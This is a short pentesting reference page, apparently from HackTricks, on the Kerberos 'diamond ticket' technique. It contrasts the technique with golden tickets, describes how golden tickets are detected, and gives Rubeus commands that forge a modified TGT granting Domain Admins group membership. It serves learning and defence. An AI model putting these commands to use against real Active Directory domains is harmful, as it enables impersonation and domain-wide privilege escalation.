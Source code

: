 # Diamond Ticket

{{#include ../../banners/hacktricks-training.md}}

## Diamond Ticket

**Like a golden ticket**, a diamond ticket is a TGT which can be used to **access any service as any user**. A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use. Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

There are two common techniques to detect the use of golden tickets:

- Look for TGS-REQs that have no corresponding AS-REQ.
- Look for TGTs that have silly values, such as Mimikatz's default 10-year lifetime.

A **diamond ticket** is made by **modifying the fields of a legitimate TGT that was issued by a DC**. This is achieved by **requesting** a **TGT**, **decrypting** it with the domain's krbtgt hash, **modifying** the desired fields of the ticket, then **re-encrypting it**. This **overcomes the two aforementioned shortcomings** of a golden ticket because:

- TGS-REQs will have a preceding AS-REQ.
- The TGT was issued by a DC which means it will have all the correct details from the domain's Kerberos policy. Even though these can be accurately forged in a golden ticket, it's more complex and open to mistakes.

```bash
# Get user RID
powershell Get-DomainUser -Identity <username> -Properties objectsid

.\Rubeus.exe diamond /tgtdeleg /ticketuser:<username> /ticketuserid:<RID of username> /groups:512

# /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
# /ticketuser is the username of the principal to impersonate.
# /ticketuserid is the domain RID of that principal.
# /groups are the desired group RIDs (512 being Domain Admins).
# /krbkey is the krbtgt AES256 hash.
```

{{#include ../../banners/hacktricks-training.md}}


